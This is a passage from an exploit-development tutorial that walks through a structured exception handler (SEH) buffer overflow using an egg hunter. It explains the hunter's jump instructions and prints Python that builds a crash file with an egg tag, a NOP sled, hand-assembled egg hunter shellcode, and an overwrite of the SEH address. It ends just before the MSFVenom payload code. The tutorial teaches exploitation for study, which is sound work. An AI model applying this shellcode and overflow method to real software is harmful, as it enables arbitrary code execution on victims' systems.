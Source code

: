 **JNE 0xF7**: Jumps backwards 8 bytes to the **INC EDI** instruction if the zero flag is not set in the EFLAGS registers.

**JMP EDI:** If neither of the JNE instructions activated it is because the EGG was found twice in memory directly next to each other and as such a jump is now take to the location where they were found.

The instructions above indicate that regardless of where our payload is in memory (provided a lower address is moved into EDI - we used EBP in this instance but any value lower that the payload starting address will work) execution will be redirected to our payload.

### Finishing the Exploit

Now that we have our SEH jumps in place and we have created our Egg Hunter, we can run the exploit again and ensure that execution is redirected to the location of our egg. We will replace the A’s (our initial padding) with 0x90’s and append our egg (“ERCD”) to the start of our payload for the egg hunter to find. Our exploit code should now look something like this:

```

f = open("crash-7.txt", "wb")  
  
padding = b"ERCDERCD" #Tag the egg hunter will search for  
padding += b"\x90" * 500  
  
egghunter  = b"\x8B\xFD"                # mov edi,ebp  
egghunter += b"\xB8\x45\x52\x43\x44"    # mov eax,45525344 ERCD                         
egghunter += b"\x47"                    # inc edi                                                                   
egghunter += b"\x39\x07"                # cmp dword ptr ds:[edi],eax                                    
egghunter += b"\x75\xFB"                # jne                               
egghunter += b"\x39\x07"                # cmp dword ptr ds:[edi],eax                                    
egghunter += b"\x75\xF7"                # jne          
egghunter += b"\xFF\xE7"                # jmp edi  
  
buf = padding + egghunter  
buf += b"B" * (620 - len(egghunter + padding))   
buf += b"\x90\x90\xEB\x80"  
buf += b"\x86\x1e\x40" #00401e86  
  
f.write(buf)  
f.close()  

```

When we inject this new payload into our vulnerable application and step through our breakpoints, we can see that execution is redirected to our egg.

Now that we have landed at our egg, we still need to generate a payload and add it to our exploit code. I used MSFVenom to generate a payload for this exploit.

Now our exploit code should look something like this:
